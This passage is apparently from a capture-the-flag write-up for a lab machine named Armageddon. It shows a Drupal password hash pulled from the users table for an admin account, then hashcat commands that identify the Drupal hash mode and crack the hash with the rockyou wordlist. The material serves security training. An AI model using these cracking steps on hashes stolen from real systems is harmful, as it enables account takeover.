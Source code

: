 ![](./IMG/30.png)
> In users table

![](./IMG/31.png)
> Credential for brucetherealadmin 

```
admin@armageddon.eu

$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```
![](./IMG/32.png)

> Hashcat to identified the password

```
hashcat --help | grep "Drupal"
```

![](./IMG/33.png)

> Hashcat to crack it 

```
hashcat -m 7900 admin.hash /usr/share/wordlists/rockyou.txt
```

